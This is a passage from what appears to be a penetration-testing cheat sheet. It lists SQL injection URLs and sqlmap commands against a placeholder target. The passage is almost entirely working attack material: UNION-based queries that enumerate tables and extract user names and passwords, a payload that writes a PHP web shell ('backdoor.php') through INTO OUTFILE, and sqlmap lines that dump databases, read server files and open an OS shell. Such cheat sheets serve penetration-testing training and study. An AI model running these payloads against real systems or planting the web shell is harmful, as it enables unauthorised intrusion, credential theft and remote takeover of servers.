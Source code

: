        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `
       
        Enumerate database tables and column structures  
       
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `
       
        Target the users table in the database  
       
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `
       
        Extract the name and password  
       
        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users `
       
        Create a backdoor
       
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`
       
 
    -   **SQLMap Examples**
 
      - Crawl the links
     
         `sqlmap -u http://$ip --crawl=1`
         
         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
         
         
      - SQLMap Search for databases against a suspected GET SQL Injection
     
        `sqlmap –u http://$ip/blog/index.php?search –dbs`
 
      - SQLMap dump tables from database oscommerce at GET SQL injection
     
        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `
     
      - SQLMap GET Parameter command  
     
         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `
         
      - SQLMap Post Username parameter
     
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`
           
      - SQL Map OS Shell
           
          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `
     
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`
           
       - Automated sqlmap scan
       
          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`
             
        - Targeted sqlmap scan
       
           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`
             
         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump  
         